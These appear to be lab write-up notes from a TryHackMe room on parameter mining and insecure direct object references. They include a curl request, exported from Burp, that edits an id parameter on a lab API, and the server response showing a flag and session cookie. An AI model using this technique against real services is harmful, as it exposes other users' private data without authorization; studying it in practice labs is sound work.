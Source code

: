 ### *Parameter Mining*
Sometimes endpoints could have an unreferenced parameter that may have been of some use during development and got pushed to production. For example, you may notice a call to `/user/details` displaying your user information (authenticated through your session). But through an attack known as parameter mining, you discover a parameter called `user_id` that you can use to display other users' information, for example, `/user/details?user_id=123`.
### *API request*
Find an API request using an id. In Burp suite, copy the request as a curl command, edit the id.
```
curl -i -s -k -X $'GET'     -H $'Host: 10-10-1-17.p.thmlabs.com' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0' -H $'Accept: application/json, text/javascript, */*; q=0.01' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: https://10-10-1-17.p.thmlabs.com/customers/account' -H $'X-Requested-With: XMLHttpRequest' -H $'Dnt: 1' -H $'Sec-Fetch-Dest: empty' -H $'Sec-Fetch-Mode: cors' -H $'Sec-Fetch-Site: same-origin' -H $'Te: trailers' -H $'Connection: close'     -b $'admin=false; session=d59284ca606d8dddb489e93d7030c21d'     $'https://10-10-1-17.p.thmlabs.com/api/v1/customer?id=3'
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Mon, 01 Apr 2024 20:31:45 GMT
Content-Type: application/json
Transfer-Encoding: chunked
Connection: close
X-FLAG: THM{HEADER_FLAG}
Set-Cookie: session=d59284ca606d8dddb489e93d7030c21d; expires=Mon, 01-Apr-2024 21:31:45 GMT; Max-Age=3600; path=
```